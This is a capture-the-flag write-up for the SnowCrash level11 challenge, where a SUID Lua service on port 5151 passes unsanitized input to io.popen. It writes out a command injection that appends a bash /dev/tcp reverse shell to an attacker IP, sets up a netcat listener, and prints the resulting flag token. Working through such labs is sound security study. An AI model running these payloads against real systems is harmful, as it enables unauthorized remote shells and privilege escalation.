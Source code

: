 - In directory `/home/user/level11` the script `level11.lua` has the SUID set to execute as `flag11`.
```
level11@SnowCrash:~$ pwd
/home/user/level11
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
```

- Examining the script reveals that a user can connect to localhost on port 5151 and is prompted with 'Password: '. Upon entering the password the password is passed into a hash function. However, the user input is not sanitized at all

```
<snip>
local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)
<snip>
```

- In the hash function the user input is used in the io.popen() function unsanitized to make a system call. The opportunity to carry out command injection exists.

``` 
<snip>
prog = io.popen("echo "..pass.." | sha1sum", "r")
<snip>
```

- A reverse shell payload is created to connect back to the attack machine on port 4444.
`/bin/bash -c '/bin/sh -i >& /dev/tcp/<attackIp>/4444 0>&1'`

- A netcat listener is started on the attack machine on port 4444
```
┌──(kali㉿kali)-[~/Desktop/snowcrash]
└─$ nc -lnvp 4444                                            
listening on [any] 4444 ...
```

- Then on the target host (snowcrash) we connect to localhost 5151 and when prompted with the password we carry out command injection by breaking out of the `echo` command with the `;` terminator, and injecting our reverse shell script

```
level11@SnowCrash:~$ nc localhost 5151
Password: passw; /bin/bash -c '/bin/sh -i >& /dev/tcp/10.13.200.129/4444 0>&1'
```

- On the attack machine, a reverse shell is obtained as `flag11` and the flag token is retrieved
```
┌──(kali㉿kali)-[~/Desktop/snowcrash]
└─$ nc -lnvp 4444                                            
listening on [any] 4444 ...
connect to [10.13.200.129] from (UNKNOWN) [10.13.200.131] 52966
/bin/sh: 0: can't access tty; job control turned off
$ whoami
flag11
$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

- Using the token authenticate as `level12` on the target host
```
level11@SnowCrash:~$ su level12
Password: 
level12@SnowCrash:~$ 

```